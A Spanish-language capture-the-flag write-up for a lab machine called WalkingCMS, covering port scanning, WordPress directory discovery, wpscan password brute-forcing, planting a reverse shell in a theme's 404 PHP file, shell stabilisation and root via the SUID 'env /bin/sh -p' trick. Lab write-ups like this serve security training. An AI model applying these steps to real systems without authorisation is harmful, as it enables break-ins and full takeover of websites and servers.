# WalkingCMS

## ESCANEO DE PUERTOS

`nmap -p- -sS -sC -sV --open --min-rate=5000 -vvv -n -Pn 172.17.0.2`



## BÚSQUEDA DE DIRECTORIOS

Usaremos Gobuster para encontrar directorios ocultos.

en el primer escaneo encontramos la siguiente url.

http://172.17.0.2/wordpress/

Volvemos a hacer una segunda búsqueda a partir de la anterior.

`gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt --exclude-length 10701`



Observamos que hay un usuario llamado mario



## FUERZA BRUTA A WORDPRESS CON WPSCAN

`wpscan --url http://172.17.0.2/wordpress --passwords /usr/share/seclists/Passwords/Common-Credentials/xato-net-10-million-passwords-100000.txt`



Encontramos las credenciales mario:love

## INTRUSIÓN

Usaremos un archivo malicioso que será subido en 404.html dentro de Theme Editor.

y buscaremos el archivo hidden-404.php el cual se ejecutaría si se diese un error 404.



Abrimos un canal de escucha en el puerto 444



En la web ReverseShell creamos una reverse shell.



copiamos el código en el archivo hidden-404.php

Recargamos la siguiente dirección

http://172.17.0.2/wordpress/wp-content/themes/twentytwentyfive/patterns/hidden-404.php



y ya estamos dentro.

## TRATAMIENTO DE TTY

`script /dev/null -c bash`

(aparece un prompt)

Luego haremos `control + Z`

`stty raw -echo; fg`

`reset xterm`

`export TERM=xterm`

`export SHELL=bash`

## ESCALADA DE PRIVILEGIOS

Buscamos los binarios con el siguiente comando

`find / -perm -4000 2>/dev/null`



En este caso buscaremos en GTFObins el binario "env"

aplicando asi el comando que nos ayudara a subir a root.



`env /bin/sh -p`

